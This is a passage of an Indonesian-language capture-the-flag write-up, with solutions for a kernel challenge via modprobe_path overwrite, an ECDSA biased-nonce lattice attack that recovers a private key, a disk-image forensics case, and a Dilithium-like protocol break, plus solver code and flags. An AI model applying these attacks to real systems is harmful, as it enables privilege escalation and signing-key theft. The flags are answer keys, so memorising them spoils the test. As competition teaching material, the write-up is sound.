// bikin /tmp/pwn (cp flag) + /tmp/dummy (\xff\xff\xff\xff)
fork()+execve("/tmp/dummy");                 // gagal exec -> kernel jalanin /tmp/pwn sbg root
read("/tmp/flag");                           // flag world-readable
```


<details>
<summary>Log lengkap</summary>

```text
[*] Compiling solve_tiny.c locally...
[*] Binary compiled and encoded. Size: ~9000 bytes
[*] Connecting to 15.232.64.175:13338...
[*] Waiting for boot / shell prompt...
[*] Uploading exploit binary via chunked base64 (400 chars/chunk)...
[*] Decoding binary and setting permissions...
[*] Running exploit binary...

[+] modprobe_path overwritten successfully!

=== FLAG OUTPUT ===
GEMASTIK19{n0t_4ll_p01nt3rs_p01nt_s0m3wh3r3_s0m3_p01nt_t0_z3r0}
```
</details>

---

> **FLAG:** `GEMASTIK19{n0t_4ll_p01nt3rs_p01nt_s0m3wh3r3_s0m3_p01nt_t0_z3r0}`

---

---

# 11. `Nonce-nse` — crypto


---

### Deskripsi Soal

> Sebuah sistem meninggalkan jejak dari banyak tanda tangan digital. Di antara angka-angka yang
> terlihat acak, ada sesuatu yang tidak beres.
>
> Temukan apa yang sebenarnya terjadi pada sistem tsb.
>
> Author: ac3

Attachment cuma satu file: `challenge.py` (17 KB).

Judulnya main kata: `Nonce-nse` kedengeran kayak *nonsense*, dan deskripsinya nyebut "tidak beres"
pada tanda tangan digital. Dari situ saya udah nebak arahnya ke nonce ECDSA yang bermasalah.


---

### Exploitation Step

Pertama saya intip isi filenya:

```bash
$ wc -l challenge.py
348 challenge.py

$ grep -nE "^n =|nonce_bits_hint" challenge.py
6:n = 115792089237316195423570985008687907852837564279074904382605163141518161494337
16:nonce_bits_hint = 160

$ grep -c '"i":' challenge.py
40

# n-nya sama nggak sama order secp256k1? (baca n langsung dari file)
$ python3 -c 'import importlib.util as u; c=u.module_from_spec(s:=u.spec_from_file_location("c","challenge.py")); s.loader.exec_module(c); print("secp256k1:", c.n == 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141)'
secp256k1: True

# ada r yang kembar nggak? (nonce reuse)
$ grep '"r":' challenge.py | sort | uniq -d
                           # kosong, berarti nggak ada r yang sama
```


Isi `challenge.py` kira-kira begini:

| Bagian | Isinya |
|---|---|
| `n`, `G`, `Q` | order kurva, generator, public key |
| `nonce_bits_hint = 160` | ini petunjuk pentingnya |
| `signatures[]` | 40 tanda tangan `{i, msg, h, r, s}` |
| `flag_enc` | AES-256-GCM: `nonce`, `ciphertext`, `tag` |
| `derive_key(d)` | turunin kunci AES dari private key `d` (HKDF-SHA256) |
| `seal_flag(d, flag)` | fungsi enkripsi flag, udah disediain di file |

Dari sini ada tiga hal yang saya catat:

- Kurvanya **secp256k1**. Nilai `n`-nya persis order standar (`p = 2^256 - 2^32 - 977`,
  `y² = x³ + 7`). `Q` public key, `G` generator biasa.
- `nonce_bits_hint = 160` padahal `n` panjangnya 256 bit. Jadi tiap nonce `k` cuma 160 bit, ada
  bias 96 bit. Artinya `k` selalu jatuh di `[0, 2^160)`, nggak nyebar merata di `[1, n)`.
- Semua `r` unik, jadi ini **bukan** nonce reuse. Serangan nonce sama nggak kepake.

---


Persamaan ECDSA-nya:

```
s = k⁻¹ · (h + r·d)   (mod n)
```

Aku susun ulang biar jadi linier terhadap private key `d`:

```
k = s⁻¹·h  +  s⁻¹·r·d          (mod n)
k = a      +  t   ·d           (mod n)      dengan  a = s⁻¹h ,  t = s⁻¹r
```

`a` sama `t` bisa dihitung dari data tanda tangan. `d` nggak diketahui, `k` juga nggak diketahui,
tapi `k` itu kecil (`k < B = 2^160`). Nah bentuk "cari `d` dari banyak `(a_i, t_i)` yang bikin
`a_i + t_i·d mod n` selalu kecil" itu persis **Hidden Number Problem**. Cara nyelesainnya bangun
lattice yang nyimpen vektor pendek `(k_0, ..., k_{m-1}, ...)` terus jalanin **LLL**.

**Bentuk latticenya.** Basis `(m+2) × (m+2)` buat `m = 40` tanda tangan:

```
┌                                  ┐
│ n   0  …  0        0     0       │
│ 0   n  …  0        0     0       │   m baris modulus
│ …                                │
│ t₀  t₁ … t_{m-1}   B/n   0       │   baris untuk d
│ a₀  a₁ … a_{m-1}   0     B       │   baris konstanta
└                                  ┘
```

Kombinasi `(baris_a) + d·(baris_t) − Σ cᵢ·(baris_n)` bakal ngasih vektor
`v = (k₀, ..., k_{m-1}, d·B/n, B)`. Norm-nya sekitar `B·√(m+2)`, jauh lebih pendek dari vektor acak
di lattice ini, jadi LLL bakal ketemu.

Satu trik yang saya pakai: **recentering**, ganti `aᵢ` jadi `aᵢ − B/2` biar `kᵢ` geser ke
`[−B/2, B/2)`. Norm targetnya turun sekitar setengah, jadi lebih gampang ketemu.

Soal jumlah tanda tangan, rule of thumb-nya `m ≳ n_bits / bias_bits = 256/96 ≈ 3`. Soal ngasih 40,
jadi longgar banget, LLL biasa udah cukup tanpa perlu BKZ.

**Ngambil `d`-nya.** Dari baris hasil LLL yang entri terakhirnya `±B`:

```
d = ± v[m] · n / B   (mod n)
```

Dua-duanya (positif dan negatif) dicoba, terus diverifikasi ke `d·G == Q`. Soalnya LLL ngeluarin
banyak vektor pendek, cuma satu yang bener.

Rantai sampai flag:

```
40 tanda tangan (bias nonce) --LLL--> d --derive_key (HKDF)--> kunci AES-256 --GCM--> FLAG
```

`derive_key()` udah ada di file soal, tinggal dipanggil.

---


Solver lengkapnya:

```python
import importlib.util
import sys
from Crypto.Cipher import AES

print("[*] Memuat challenge.py menggunakan importlib...")
spec = importlib.util.spec_from_file_location("challenge", "challenge.py")
challenge = importlib.util.module_from_spec(spec)
sys.modules["challenge"] = challenge
spec.loader.exec_module(challenge)

print("[*] Mengekstrak parameter kurva dan signature...")
n = challenge.n
G = challenge.G
Q = challenge.Q
nonce_bits_hint = challenge.nonce_bits_hint
signatures = challenge.signatures
flag_enc = challenge.flag_enc

# Inisialisasi kurva secp256k1 dan angkat tuple ke titik kurva Sage
p = 2**256 - 2**32 - 977
E = EllipticCurve(GF(p), [0, 7])
G_pt = E(G[0], G[1])
Q_pt = E(Q[0], Q[1])

# Sanity check parameter kurva
assert n * G_pt == E(0), "[-] Sanity check gagal: n * G != O"
print("[+] Sanity check kurva berhasil (n * G == O)")

B = 2**nonce_bits_hint
m = len(signatures)
print(f"[+] Jumlah signature: {m} | Nonce bits hint: {nonce_bits_hint} | B: {B}")

print("[*] Menghitung a_i dan t_i dengan recentering...")
a_list = []
t_list = []

for sig in signatures:
  if isinstance(sig, (list, tuple)):
    _, _, h, r, s = sig
  else:
    h = sig.get("h")
    r = sig.get("r")
    s = sig.get("s")

  s_inv = inverse_mod(s, n)
  a = (s_inv * h) % n
  t = (s_inv * r) % n

  a_recentered = (a - B // 2) % n
  a_list.append(a_recentered)
  t_list.append(t)

print("[*] Membangun matriks lattice HNP ((m+2) x (m+2))...")
# Komentar Lattice HNP:
# - Baris 0 hingga m-1: Kelipatan n pada diagonal untuk mereduksi modulo n.
# - Baris m: Menyimpan koefisien t_i dan scaling factor B/n untuk variabel d.
# - Baris m+1: Menyimpan koefisien a_i (recentered) dan scaling factor konstanta B.
M = Matrix(QQ, m + 2, m + 2)

for i in range(m):
  M[i, i] = n

for i in range(m):
  M[m, i] = t_list[i]
  M[m + 1, i] = a_list[i]

M[m, m] = QQ(B) / QQ(n)
M[m + 1, m + 1] = B

print("[*] Menjalankan LLL reduction pada matriks lattice...")
L = M.LLL()


print(
    "[*] Mencari private key d dari baris hasil LLL (mencoba semua baris &"
    " kedua tanda)..."
)
found_d = None

for row in L:
  for sign in [1, -1]:
    test_row = [sign * val for val in row]
    val_m = test_row[m]

    # Pastikan hasil kalkulasi rasional benar-benar bilangan bulat (integer)
    cand_expr = (val_m * n) / B
    if cand_expr in ZZ:
      d_cand = int(ZZ(cand_expr) % n)
      if d_cand > 0 and (ZZ(d_cand) * G_pt == Q_pt):
        found_d = d_cand
        break
  if found_d is not None:
    break

if found_d is None:
  print(
      "[-] Gagal menemukan private key d yang valid dari hasil LLL. Pastikan"
      " jumlah signature dan asumsi bit bias sudah tepat."
  )
  sys.exit(1)

print(f"[+] Private key d berhasil ditemukan: {found_d}")
print("[+] Verifikasi d * G == Q: BERHASIL")

print("[*] Mendapatkan kunci AES dan mendekripsi flag dengan AES-GCM...")
key = challenge.derive_key(found_d)

# Ambil data dari flag_enc (mendukung format dict maupun attribute object)
raw_nonce = (
    flag_enc["nonce"] if isinstance(flag_enc, dict) else flag_enc.nonce
)
raw_ciphertext = (
    flag_enc["ciphertext"]
    if isinstance(flag_enc, dict)
    else flag_enc.ciphertext
)
raw_tag = flag_enc["tag"] if isinstance(flag_enc, dict) else flag_enc.tag

# Konversi string hex ke bytes
nonce = bytes.fromhex(raw_nonce) if isinstance(raw_nonce, str) else raw_nonce
ciphertext = (
    bytes.fromhex(raw_ciphertext)
    if isinstance(raw_ciphertext, str)
    else raw_ciphertext
)
tag = bytes.fromhex(raw_tag) if isinstance(raw_tag, str) else raw_tag

cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
flag = cipher.decrypt_and_verify(ciphertext, tag)

print(f"\n[+] FLAG BERHASIL DIDAPATKAN: {flag.decode('utf-8')}")

```

```bash
$ sage solve-dsoal-nonce.sg
```

Inti kodenya:

```python
# data dibaca langsung dari challenge.py (importlib), biar nggak salah ketik 40 signature
A, T = [], []
for sg in signatures:
    si = inverse_mod(sg["s"], n)
    A.append((si * sg["h"]) % n)      # a_i
    T.append((si * sg["r"]) % n)      # t_i
A = [(a - B/2) % n for a in A]        # recentering

M = Matrix(QQ, m+2, m+2)
for i in range(m): M[i, i] = n
for i in range(m):
    M[m,   i] = T[i]
    M[m+1, i] = A[i]
M[m, m]     = QQ(B)/QQ(n)
M[m+1, m+1] = B
L = M.LLL()

E = EllipticCurve(GF(p), [0, 7]); G_pt = E(*G); Q_pt = E(*Q)
assert n * G_pt == E(0)               # sanity check parameter kurva

for row in L:                         # coba semua baris + dua tanda
    for sign in (1, -1):
        val = sign * row[m]
        if (val * n / B) in ZZ:       # pastiin bulat dulu sebelum konversi
            d = int(ZZ(val * n / B) % n)
            if d and d * G_pt == Q_pt: found = d
```

Habis `d` ketemu, tinggal turunin kunci dan dekripsi:

```python
key  = derive_key(found)                                    # HKDF-SHA256 (dari file soal)
nonce, ct, tag = (bytes.fromhex(flag_enc[k]) for k in ("nonce","ciphertext","tag"))
flag = AES.new(key, AES.MODE_GCM, nonce=nonce).decrypt_and_verify(ct, tag)
```

Aku pakai `decrypt_and_verify` (bukan `decrypt` biasa) biar tag GCM sekalian jadi bukti kuncinya
bener.


<details>
<summary>Log lengkap</summary>

```text
[*] Memuat challenge.py menggunakan importlib...
[*] Mengekstrak parameter kurva dan signature...
[+] Jumlah signature: 40 | Nonce bits hint: 160 | B: 1461501637330902918203684832716283019655932542976
[*] Menghitung a_i dan t_i dengan recentering...
[*] Membangun matriks lattice HNP ((m+2) x (m+2))...
[*] Menjalankan LLL reduction pada matriks lattice...
[+] Sanity check kurva berhasil (n * G == O)
[*] Mencari private key d dari baris hasil LLL (mencoba semua baris & kedua tanda)...
[+] Private key d berhasil ditemukan: 79295886621100799536660173890999070263994144161520202567633589011913622152463
[+] Verifikasi d * G == Q: BERHASIL
[*] Mendapatkan kunci AES dan mendekripsi flag dengan AES-GCM...

[+] FLAG BERHASIL DIDAPATKAN: GEMASTIK19{hnp_sh0rt_b14s3d_n0nc3_l4tt1c3_g4t3d_kdf}
```

Buat mastiin, saya rekonstruksi ulang tiap nonce `k = s⁻¹(h + r·d) mod n`. Bitlength-nya
`[160, 160, 156, ..., 157]`, maksimal 160 minimal 154. Semua di bawah 160 bit, jadi tebakan
bias-nya bener.
</details>

---

> **FLAG:** `GEMASTIK19{hnp_sh0rt_b14s3d_n0nc3_l4tt1c3_g4t3d_kdf}`

---

---

# 12. `Tombstone` — forensics


---

### Deskripsi Soal

> DLP flagged outbound traffic from a finance workstation, well after hours. We pulled the disk
> image before anyone could touch it again.
>
> Rekonstruksi apa yang terjadi malam itu: siapa yang masuk, dari mana, kapan, dan gimana datanya
> keluar. Treat the image as evidence and work on a copy.
>
> Author: aodreamer

Attachment: `fin-ws-04.img` (disk image ext4, 48 MB).



---

### Exploitation Step

`SOC_NOTE.md` bilang jejak gampangnya udah dibersihin: `auth.log` dipotong, journal systemd
di-vacuum, `.bash_history` ilang. Aku baca isi image pakai The Sleuth Kit (tanpa mount, biar
journal replay nggak ngerusak bukti):

```bash
$ fls -r -p fin-ws-04.img
r/r 40: home/dwi/.bash_history
r/r 41: home/dwi/.python_history
r/r 39: var/tmp/.ICE-unix/1000/.cache-dwi.dat
r/r 35: var/log/auth.log
r/r 37: var/log/wtmp
r/r 38: var/log/btmp
r/r 36: var/log/audit/audit.log
r/r 31: etc/cron.d/geoclue-refresh
r/r 34: usr/local/sbin/systemd-timesyncd-helper
...
```



Yang saya catat:

- `usr/local/sbin/systemd-timesyncd-helper` itu **masquerading**, namanya niru daemon systemd yang
  sah tapi ditaruh di `/usr/local/sbin`. Ini tool penyerangnya.
- `.cache-dwi.dat` di dalam `.ICE-unix` (harusnya buat X11 socket) itu payload staging.
- `.bash_history` nol byte, tapi `.python_history` masih utuh, dan isinya justru resep serangannya.
- `wtmp`, `btmp`, `audit.log` selamat karena format biner, penyerang sering lupa. Dari `btmp`:
  dua login gagal dari `10.13.37.7` (jam 20:39 sebagai `dwi`, 20:40 sebagai `root`), lalu `wtmp`:
  login berhasil dari IP yang sama jam 20:41.

---


**Resep dari .python_history.** Penyerang hapus `.bash_history` tapi lupa `.python_history`:

```python
os.setxattr('/usr/local/sbin/systemd-timesyncd-helper', 'user.upl_b', part_b)
# vault key = PBKDF2(cron UPLOAD_ID + that xattr, salt = tool crtime as epoch), 200000
# packed /home/dwi/finance -> /var/tmp/.ICE-unix/1000/.cache-dwi.dat (AES-GCM, nonce||ct||tag)
```

Jadi kuncinya dipecah tiga, disebar di tempat beda:

1. `UPLOAD_ID` di `/etc/cron.d/geoclue-refresh` (nyamar jadi config geoclue): `3f9a1c7e5b2d8046a1c0`
2. `part_b` di **extended attribute** `user.upl_b` milik tool itu
3. salt = **crtime** inode tool

Dua yang terakhir nggak bisa diambil pakai `tsk_recover`/`cat`, karena itu metadata inode. Harus
lewat `debugfs -R "stat"`:

```
ctime: 0x63c34200 -- Sun Jan 15 07:00:00 2023
atime: 0x63c34200 -- Sun Jan 15 07:00:00 2023
mtime: 0x63c34200 -- Sun Jan 15 07:00:00 2023
crtime: 0x6733bdd4 -- Wed Nov 13 03:43:00 2024
Extended attributes:
  user.upl_b (20) = "8f2b6d1a0c7e9a4b3f51"
```

**Ini inti soalnya.** Tiga timestamp pertama seragam persis di Januari 2023, itu jelas hasil
`touch` biar tool-nya kelihatan bawaan sistem. Tapi **crtime nggak ikut dipalsuin** (12 November
2024 jam 20:43), pas di antara login jam 20:41 dan upload jam 20:45. Ironinya, penyerang milih
crtime jadi salt justru karena susah dipalsuin, tapi jadinya dia nggak bisa palsuin crtime buat
nutupin jejaknya sendiri. Dia ngunci dirinya ke timestamp yang jujur. Judul "Tombstone" pas banget.

**Umpan.** `BK_KEY=b17c0ffee5a1710d` di `/etc/cron.d/backup` + `state.enc` di `/opt/backup/`
kelihatan berpasangan, tapi `.python_history` jelas nyebut yang dipakai `UPLOAD_ID`, bukan `BK_KEY`.
Umpan.

---


Solver lengkapnya:

```python
import gzip
import hashlib
import io
import re
import subprocess
import sys
import tarfile
from Crypto.Cipher import AES

IMAGE_FILE = 'fin-ws-04.img'


def run_debugfs_text(command):
  cmd = ['debugfs', '-R', command, IMAGE_FILE]
  result = subprocess.run(cmd, capture_output=True, text=True, errors='ignore')
  if result.returncode != 0 and 'Extended attributes' not in result.stdout:
    print(f"[!] debugfs error for command '{command}': {result.stderr}")
  return result.stdout


def run_debugfs_binary(command):
  cmd = ['debugfs', '-R', command, IMAGE_FILE]
  result = subprocess.run(cmd, capture_output=True)
  if result.returncode != 0:
    print(f"[!] debugfs binary error for command '{command}': {result.stderr}")
  return result.stdout


def main():
  print(
      '[*] Step 1: Extracting UPLOAD_ID from cron configuration'
      ' (/etc/cron.d/geoclue-refresh)...'
  )
  cron_content = run_debugfs_text('cat /etc/cron.d/geoclue-refresh')
  match = re.search(r'UPLOAD_ID=([a-zA-Z0-9]+)', cron_content)
  if not match:
    print('[!] UPLOAD_ID not found in the cron configuration file!')
    sys.exit(1)
  upload_id = match.group(1)
  print(f'[+] Successfully extracted UPLOAD_ID: {upload_id}')

  print(
      '[*] Step 2: Inspecting tool metadata (inode, timestamps, xattr) via'
      ' debugfs stat...'
  )
  stat_output = run_debugfs_text(
      'stat /usr/local/sbin/systemd-timesyncd-helper'
  )

  # Parse Inode dynamically
  inode_match = re.search(r'Inode:\s+(\d+)', stat_output)
  inode_num = inode_match.group(1) if inode_match else 'Unknown'
  print(f'[+] Target file Inode resolved dynamically: {inode_num}')

  # Parse mtime and crtime
  mtime_match = re.search(r'mtime:\s+0x([0-9a-fA-F]+):', stat_output)
  crtime_match = re.search(r'crtime:\s+0x([0-9a-fA-F]+):', stat_output)

  if not mtime_match or not crtime_match:
    print('[!] Failed to parse mtime or crtime from debugfs stat output!')
    sys.exit(1)

  mtime_epoch = int(mtime_match.group(1), 16)
  crtime_epoch = int(crtime_match.group(1), 16)

  print('\n----------------------------------------')
  print('           TIMESTAMP ANALYSIS           ')
  print('----------------------------------------')
  print(
      f'[*] mtime  : {mtime_epoch} (Hex: 0x{mtime_match.group(1)}) -> [FORGED'
      ' / TOUCHED]'
  )
  print(
      f'[*] crtime : {crtime_epoch} (Hex: {crtime_match.group(1)}) -> [REAL'
      ' / UNALTERED BIRTH TIME]'
  )
  print('----------------------------------------\n')

  # Parse part_b from extended attributes
  xattr_match = re.search(r'user\.upl_b\s*\(\d+\)\s*=\s*"([^"]+)"', stat_output)
  if not xattr_match:
    print(
        '[!] Failed to parse extended attribute user.upl_b from inode'
        ' metadata!'
    )
    sys.exit(1)
  part_b = xattr_match.group(1)
  print(f'[+] Successfully extracted part_b from xattr: {part_b}')

  print(
      '[*] Step 3: Deriving Vault Key using PBKDF2-HMAC-SHA256 (200,000'
      ' iterations)...'
  )
  password = (upload_id + part_b).encode('utf-8')
  salt = str(crtime_epoch).encode('utf-8')
  iterations = 200000
  key_length = 32

  derived_key = hashlib.pbkdf2_hmac(
      'sha256', password, salt, iterations, dklen=key_length
  )
  print(f'[+] Derived Key (Hex): {derived_key.hex()}')

  print(
      '[*] Step 4: Extracting encrypted vault payload'
      ' (/var/tmp/.ICE-unix/1000/.cache-dwi.dat)...'
  )
  encrypted_data = run_debugfs_binary(
      'cat /var/tmp/.ICE-unix/1000/.cache-dwi.dat'
  )
  if not encrypted_data or len(encrypted_data) < 28:
    print(
        '[!] Failed to extract encrypted file or payload size is too small!'
    )
    sys.exit(1)
  print(
      f'[+] Successfully extracted encrypted payload ({len(encrypted_data)}'
      ' bytes)'
  )

  print(
      '[*] Step 5: Decrypting and verifying payload with AES-GCM (Nonce: 12 bytes,'
      ' Tag: 16 bytes)...'
  )
  nonce = encrypted_data[:12]
  tag = encrypted_data[-16:]
  ciphertext = encrypted_data[12:-16]

  try:
    cipher = AES.new(derived_key, AES.MODE_GCM, nonce=nonce)
    decrypted_gzip = cipher.decrypt_and_verify(ciphertext, tag)
    print('[+] AES-GCM Decryption successful! Cryptographic tag verified.')
  except ValueError as e:
    print(
        '[!] GCM Tag verification failed! The derived key or ciphertext is'
        ' incorrect.'
    )
    print(f'    Error details: {e}')
    sys.exit(1)

  print(
      '[*] Step 6: Inspecting archive contents safely in memory (no disk'
      ' writes)...'
  )
  try:
    decompressed_gzip = gzip.decompress(decrypted_gzip)
    flag_pattern = re.compile(r'GEMASTIK19\{[^}]*\}')
    found_flags = []

    with tarfile.open(fileobj=io.BytesIO(decompressed_gzip), mode='r') as tar:
      for member in tar.getmembers():
        print(f'\n--- File: {member.name} (Size: {member.size} bytes) ---')
        if member.isfile():
          f = tar.extractfile(member)
          if f:
            content_bytes = f.read()
            try:
              content_text = content_bytes.decode('utf-8')
              print(content_text)

              # Step 7: Search for flag with line numbers
              lines = content_text.splitlines()
              for line_idx, line in enumerate(lines, 1):
                match = flag_pattern.search(line)
                if match:
                  found_flags.append((match.group(0), member.name, line_idx))
            except UnicodeDecodeError:
              print(
                  '[!] Binary file or non-text content, skipping direct text'
                  ' display.'
              )
        else:
          print('[Directory or special entry]')

    print('\n----------------------------------------')
    print('           FLAG SEARCH RESULTS          ')
    print('----------------------------------------')
    if found_flags:
      for flag, filename, lineno in found_flags:
        print(f'[+] FLAG FOUND: {flag}')
        print(f'    File Path  : {filename}')
        print(f'    Line Number: {lineno}')
    else:
      print('[!] Flag pattern not found in any of the extracted archive files.')
    print('----------------------------------------')

  except Exception as e:
    print(f'[!] Failed during gzip decompression or archive inspection: {e}')
    sys.exit(1)


if __name__ == '__main__':
  main()

```

```bash
$ python3 Tombstone-solved.py
```

Yang penting: image-nya **nggak di-mount sama sekali**, semua pembacaan lewat `debugfs` subprocess
(termasuk `debugfs -R "cat <path>"`), jadi bukti nggak tersentuh. `UPLOAD_ID` di-regex dari cron,
`part_b` + `crtime` diparse dari output `debugfs stat`, nomor inode dicari dari field `Inode:` (bukan
dihardcode). Ekstraksi arsip dilakukan di memori (`getmembers`/`extractfile`), nggak nulis ke disk,
biar aman dari path traversal.

```
key = PBKDF2-HMAC-SHA256(UPLOAD_ID + part_b, str(crtime), 200000)
plain = AES-256-GCM.decrypt(.cache-dwi.dat, nonce||ct||tag)
gunzip -> tar -> drop_manifest.txt (ada flagnya)
```



<details>
<summary>Log lengkap</summary>

```text
[*] Step 1: Extracting UPLOAD_ID from cron configuration (/etc/cron.d/geoclue-refresh)...
[+] Successfully extracted UPLOAD_ID: 3f9a1c7e5b2d8046a1c0
[*] Step 2: Inspecting tool metadata (inode, timestamps, xattr) via debugfs stat...
[+] Target file Inode resolved dynamically: 34

----------------------------------------
           TIMESTAMP ANALYSIS
----------------------------------------
[*] mtime  : 1673740800 (Hex: 0x63c34200) -> [FORGED / TOUCHED]
[*] crtime : 1731444180 (Hex: 6733bdd4) -> [REAL / UNALTERED BIRTH TIME]
----------------------------------------

[+] Successfully extracted part_b from xattr: 8f2b6d1a0c7e9a4b3f51
[*] Step 3: Deriving Vault Key using PBKDF2-HMAC-SHA256 (200,000 iterations)...
[+] Derived Key (Hex): fa456c136b1856448dacf53cb6046c0b5e477ff9432974752c351a1fb38ddb2f
[*] Step 4: Extracting encrypted vault payload (/var/tmp/.ICE-unix/1000/.cache-dwi.dat)...
[+] Successfully extracted encrypted payload (346 bytes)
[*] Step 5: Decrypting and verifying payload with AES-GCM (Nonce: 12 bytes, Tag: 16 bytes)...
[+] AES-GCM Decryption successful! Cryptographic tag verified.
[*] Step 6: Inspecting archive contents safely in memory (no disk writes)...

--- File: q3_actuals.xlsx (Size: 36 bytes) ---
PK(placeholder spreadsheet bytes)

--- File: vendor_list.csv (Size: 36 bytes) ---
vendor,acct
ACME,88120
Globex,88231

--- File: drop_manifest.txt (Size: 117 bytes) ---
exfil manifest fin-ws-04
files staged and uploaded.
vault unlocked -> GEMASTIK19{th3_cl0ck_l13d_but_th3_1n0d3_d1dnt}

----------------------------------------
           FLAG SEARCH RESULTS
----------------------------------------
[+] FLAG FOUND: GEMASTIK19{th3_cl0ck_l13d_but_th3_1n0d3_d1dnt}
    File Path  : drop_manifest.txt
    Line Number: 3
----------------------------------------
```
</details>

---

> **FLAG:** `GEMASTIK19{th3_cl0ck_l13d_but_th3_1n0d3_d1dnt}`

---

---

# 13. `TZKS` — crypto

---

### 📝 Deskripsi Soal

> "Last year, my friend's thesis was about testing some kind of protocol... I don't really
> understand all the technical stuff about it. I dont have the main source also. Maybe... you can
> bypass it?!"

**📎 Attachment:** [`TZKS.hlpsl`](TZKS.hlpsl)


---

### 🔍 Reconnaissance

Ekstensi `.hlpsl` adalah HLPSL (High-Level Protocol Specification Language), bahasa yang dipakai
AVISPA untuk verifikasi formal protokol keamanan. Cocok dengan petunjuk soal "friend's thesis was
about testing some kind of protocol".

Empat baris komentar di atas file sudah memberi seluruh wire format:

```
{"cmd":"enroll"}                                 -> {"c0"}
{"cmd":"enroll_open","w","z1","z2"}              -> {"ok"}
{"cmd":"prove","label"}                          -> {"w","c","z","a"}
{"cmd":"auth","w"}                               -> {"c"}
{"cmd":"auth_resp","z1","z2"}                    -> {"flag"}
```

Encoding: ring elem = hex dari n koefisien big-endian 3 byte mod q, vektor = list. Server mengirim
parameter saat connect (setelah proof-of-work 20 bit):

```
n=256 q=8380451 k=4 l=4   eta=2   gamma=131072   tau=39
A: matriks 4x4 elemen ring
t: vektor 4 elemen ring
```

Ini Dilithium-like (Module-LWE), dengan `t = A*s + e`, `s` dan `e` kecil (norma <= eta = 2).
Catatan: `q = 8380451` bukan `8380417` milik Dilithium asli, dan `q mod 512 = 35`, jadi q bukan
NTT-friendly. Semua aritmetika ring harus dikerjakan manual.

---

### 🧠 Analisis

**Bug 1: `w` tidak mengikat (Fiat-Shamir rusak).** Perhatikan urutan transisi di role
`authorizer`:

```
issue. State = 0 /\ RCV(start)       =|> C0' := new() /\ SND(C0')
open.  State = 1 /\ RCV(W0'.Z1'.Z2')
          /\ add(mul(AA,Z1'), Z2') = add(W0, mul(C0,T))
```

Server mengirim `c0` lebih dulu, baru menerima `w` bersama `z1` dan `z2` dalam satu pesan. Padahal
seluruh keamanan Fiat-Shamir bergantung pada `w` yang mengikat sebelum tantangan keluar. Di sini
`w` sama sekali tidak mengikat, jadi tinggal dibalik urutan berpikirnya:

```
ambil   z1 = 0, z2 = 0
maka    w = -c0 * t
cek     A*0 + 0 == (-c0*t) + c0*t == 0     benar
```

Norma z1 dan z2 nol, jadi lolos juga kalau ada pengecekan batas. Terotorisasi tanpa mengetahui apa
pun. (Trik sama di tahap `auth` ditolak, karena di sana urutannya benar, `w` dikirim dulu, dan
koefisien `c*t` besarnya sekitar `q/2`, jauh di atas gamma. Jadi verifier memang mengecek norma.)

**Bug 2: nonce reuse di `prove` membocorkan witness.** Role `alice`:

```
prove. State = 0 /\ RCV(Label') =|>
       Y' := MASK(S.E.Label')              <- hanya fungsi dari label
       W' := MASK(E.S.Label')              <- idem
       U' := AGG(Label'.S)
       C' := new()                         <- selalu baru
       Z' := add(Y', mul(C', U'))
       SND(W'.C'.Z'.AGG(Label'))
```

`Y` diturunkan dari (S, E, Label) saja, tanpa unsur acak. Tapi `C` di-generate baru tiap
pemanggilan. Artinya dua proof pada label yang sama memakai nonce yang persis sama dengan tantangan
berbeda. Diverifikasi langsung ke server: `w` dan `a` identik antar dua proof label sama, `c` dan
`z` berbeda. Karena `z = y + c*u`:

```
z1 = y + c1*u
z2 = y + c2*u
----------------- kurangkan
z1 - z2 = (c1 - c2) * u
```

`y` lenyap. Tinggal selesaikan `u = (z1 - z2) / (c1 - c2)` di `R_q`. Karena q prima tapi bukan
NTT-friendly, pembagiannya dikerjakan sebagai sistem linier 256x256 memakai matriks negacyclic dari
`(c1 - c2)`:

```
M[k][j] = c[k-j]        bila k >= j
        = -c[k-j+n]     bila k < j     (karena x^n = -1)
```

`u_label = <a_label, s> = sum_{i=0}^{l-1} a_label[i] * s[i]`. Setiap label memberi 256 persamaan;
`s` punya `l*n = 4*256 = 1024` variabel. Jadi empat label sudah cukup untuk menentukan `s` secara
unik. Susun matriks 1024x1024 dari blok-blok negacyclic `a_label[i]`, selesaikan dengan eliminasi
Gauss mod q (numpy int64 cukup: `q < 2^23`, hasil kali `< 2^46`).

Verifikasi tanpa perlu bertanya ke server:

```
[+] s dipulihkan, norma tak hingga = 2 (eta = 2)
[+] e = t - A*s, norma tak hingga = 2 (eta = 2)
```

Kalau `s` yang dipulihkan salah, normanya tersebar acak mendekati `q/2`. Dapat tepat 2 pada keduanya
adalah bukti kuat rekonstruksinya benar.

---

### ⚔️ Exploitation

Dengan `s` dan `e` di tangan, tinggal jalankan protokol secara jujur (solver lengkap di
[`solve.py`](solve.py)):

```
pilih y1 in R^l, y2 in R^k dengan koefisien kecil
w = A*y1 + y2                  -> kirim
terima c
z1 = y1 + c*s
z2 = y2 + c*e                  -> kirim
```

Persamaan verifier terpenuhi secara identik:

```
A*z1 + z2 = A*y1 + c*A*s + y2 + c*e = (A*y1 + y2) + c*(A*s + e) = w + c*t
```

Batas norma: `||c*s|| <= tau*eta = 39*2 = 78`, jadi ambil `||y|| <= gamma - 78 - 64` supaya `||z||`
aman di bawah gamma. Hasilnya `130924 < 131072`, lolos.

```
[+] n=256 q=8380451 k=4 l=4 eta=2 gamma=131072 tau=39
[+] Terotorisasi tanpa kredensial apa pun
[+] label 0000000000000000: u = <a,s> berhasil dipulihkan
[+] label 0000000000000001: u = <a,s> berhasil dipulihkan
[+] label 0000000000000002: u = <a,s> berhasil dipulihkan
[+] label 0000000000000003: u = <a,s> berhasil dipulihkan
[+] s dipulihkan, norma tak hingga = 2 (eta = 2)
[+] e = t - A*s, norma tak hingga = 2 (eta = 2)
[+] norma tak hingga z = 130924 (batas gamma = 131072)
[+] FLAG: GEMASTIK19{r353t_th3_pr0v3r_l34k_m0dul3_lw3_w1tn3ss_th3n_1mp3rs0n4t3}
```

---

### 🚩 Flag

```
GEMASTIK19{r353t_th3_pr0v3r_l34k_m0dul3_lw3_w1tn3ss_th3n_1mp3rs0n4t3}
```

